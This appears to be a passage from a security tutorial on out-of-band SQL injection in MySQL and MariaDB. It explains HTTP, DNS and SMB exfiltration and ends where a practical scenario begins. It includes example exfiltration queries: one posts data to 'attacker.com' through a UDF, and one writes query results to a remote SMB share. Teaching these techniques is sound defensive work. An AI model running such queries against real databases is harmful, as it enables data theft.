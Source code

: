 Examples of Out-of-band Techniques

Out-of-band SQL injection techniques in MySQL and MariaDB can utilise various network protocols to exfiltrate data. The primary methods include DNS exfiltration, HTTP requests, and SMB shares. Each of these techniques can be applied depending on the capabilities of the MySQL/MariaDB environment and the network setup.\


### HTTP Requests 

By leveraging database functions that allow HTTP requests, attackers can send sensitive data directly to a web server they control. This method exploits database functionalities that can make outbound HTTP connections. Although MySQL and MariaDB do not natively support HTTP requests, this can be done through external scripts or User Defined Functions (UDFs) if the database is configured to allow such operations.

First, the UDF needs to be created and installed to support HTTP requests. This setup is complex and usually involves additional configuration. An example query would look like `SELECT http_post('http://attacker.com/exfiltrate', sensitive_data) FROM books;`.

HTTP request exfiltration can be implemented on Windows and Linux (Ubuntu) systems, depending on the database's support for external scripts or UDFs that enable HTTP requests.

### DNS Exfiltration&#x20;

Attackers can use SQL queries to generate DNS requests with encoded data, which is sent to a malicious DNS server controlled by the attacker. This technique bypasses HTTP-based monitoring systems and leverages the database's ability to perform DNS lookups.

As discussed above, MySQL does not natively support generating DNS requests through SQL commands alone, attackers might use other means such as custom User-Defined Functions (UDFs) or system-level scripts to perform DNS lookups.

### SMB Exfiltration

SMB exfiltration involves writing query results to an SMB share on an external server. This technique is particularly effective in Windows environments but can also be configured in Linux systems with the right setup. an example query would look like `SELECT sensitive_data INTO OUTFILE '\\\\10.10.162.175\\logs\\out.txt';`.

This is fully supported as Windows natively supports SMB/UNC paths. Linux (Ubuntu): While direct UNC paths are more native to Windows, SMB shares can be mounted and accessed in Linux using tools like `smbclient` or by mounting the share to a local directory. Directly using UNC paths in SQL queries may require additional setup or scripts to facilitate the interaction.

### Practical Example

In this practical scenario, we will demonstrate how an attacker can exfiltrate data from a vulnerable web application using an Out-of-band SQL injection technique. The server-side code contains an SQL injection vulnerability that allows an attacker to craft a payload that writes the results of a query to an external SMB share. This is useful when direct responses from the database are restricted or monitored.

### Scenario Explanation
